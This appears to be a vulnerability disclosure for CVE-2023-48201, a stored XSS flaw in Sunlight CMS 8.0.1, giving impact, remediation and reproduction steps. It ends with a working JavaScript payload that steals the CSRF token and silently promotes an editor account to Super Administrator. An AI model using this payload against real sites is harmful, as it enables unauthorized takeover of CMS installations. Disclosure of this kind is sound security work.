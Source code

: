 theme: jekyll-theme-minimal
# CVE-2023-48201: Stored Cross-Site Scripting (XSS) in Create/Edit Article function in Sunlight CMS 8.0.1 

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can create and edit Articles, is able to inject malicious Javascript code to the 'Content' text editor. After the Article is approved and an Administrator or Super Administrator views the Article, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and add it to the group 'Editors'.
2. Create an article as the user 'editor1'.
3. Approve the Article as a Super Administrator.
4. Inject the malicious code in the article as user 'editor1'.
5. View the Article as Super Administrator.
6. Verify that the user 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can create/edit Articles can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize Article content before inserting it in the database.

# Proof of Concept code
Add the article text in HTML and then add the following code:

```js
<script>
/* Get a CSRF token from the change account form and use it to escalate a user to Super Admin */
var csrf_token;
var xhrGET_users_edit = new XMLHttpRequest();
xhrGET_users_edit.responseType = "document";
xhrGET_users_edit.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		// Typical action to be performed when the document is ready:
		var doc = this.responseXML ;
		csrf_token = doc.getElementsByName("_security_token")[0].value;
		//console.log(csrf_token);
        
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&id=editor1", true);
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
        xhr.withCredentials = true;
        var body = "username=editor1&publicname=editor1&email=editor1%40test.tk&password=&group_id=1&wysiwyg=1&public=1&note=&_security_token="+csrf_token;
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
	}
};
xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&id=editor1", true);
xhrGET_users_edit.send();
</script>
```
